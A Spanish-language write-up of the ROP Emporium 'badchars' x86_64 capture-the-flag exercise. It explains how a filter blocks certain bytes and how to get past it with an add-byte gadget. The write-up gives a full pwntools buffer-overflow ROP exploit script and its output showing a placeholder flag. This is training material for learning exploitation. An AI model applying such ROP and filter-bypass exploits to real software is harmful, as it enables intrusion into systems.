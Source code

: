 # 5. Badchars (x86\_64)

Este ejercicio es el mismo que [write4](4.-write4-x86_64.md) con una pequeña diferencia.

En este ejercicio la función donde teníamos el buffer overflow hay un bucle que, si nuestro payload tiene ciertos  valores los cambiará a otro valor, lo cual romperá nuestro Rop:

```c
input = read(0, array, 0x200);

for (x = 0; x < input; x = x + 1) {
    for (y = 0; y < 4; y = y + 1) {
        if (array[x] == "xga.badchars by ROP Emporium"[y]) { // Pilla x, g, a y x como badchars
            array[x] = -0x15;
        }
    }
}
```

Recordemos que en nuestro solve pasamos `flag.txt` al .bss, con lo cual mandamos el `flag.txt` en el payload:

```python
    payload = flat({
        offset: [
            pop_r14_r15, exe.bss(), b'flag.txt', # Esto mete badchars
            mov_r14_r15,
            pop_rdi,    exe.bss(),
            exe.plt['print_file'],
        ]
    })
```

Para poder saltarnos esta barrera podemos pasar flag.txt a hexadecimal, restar un byte a cada letra que era un badchar y luego, justo antes de pasárselo como parámetro a la función, sumarle 1 byte con un gadget que tenga por ejemplo  `add` como  `add byte ptr [r15], r14b ; ret`

Con esto podemos pasar a la creación del exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("badchars")
libc = ELF("libbadchars.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    offset = 40
    pop_rdi = 0x004006a3 # pop rdi ; ret
    mov_r13_r12 = 0x00400634 # mov qword ptr [r13], r12 ; ret
    pop_r12_r13_r14_r15 = 0x0040069c # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    add_byte = 0x0040062c # add byte ptr [r15], r14b ; ret
    
    payload = flat(
            b'B' * offset,
            pop_r12_r13_r14_r15, b"\x66\x6c\x60\x66\x2d\x74\x77\x74", exe.bss(), 0x69, 0x69,
            mov_r13_r12, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x2,
            add_byte, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x3,
            add_byte, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x4,
            add_byte, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x6,
            add_byte, 
            pop_rdi,    exe.bss(),
            exe.plt['print_file'],
    )
    
    bad = b"xga."
    found = False
    for i, bch in enumerate(payload):
        if bch in bad:
            print(f"[badchar] {chr(bch)!r} en payload[{i}]")
            found = True
    if not found:
        print("[badchar] ninguno")

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()

```

```python
[*] Switching to interactive mode
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona!
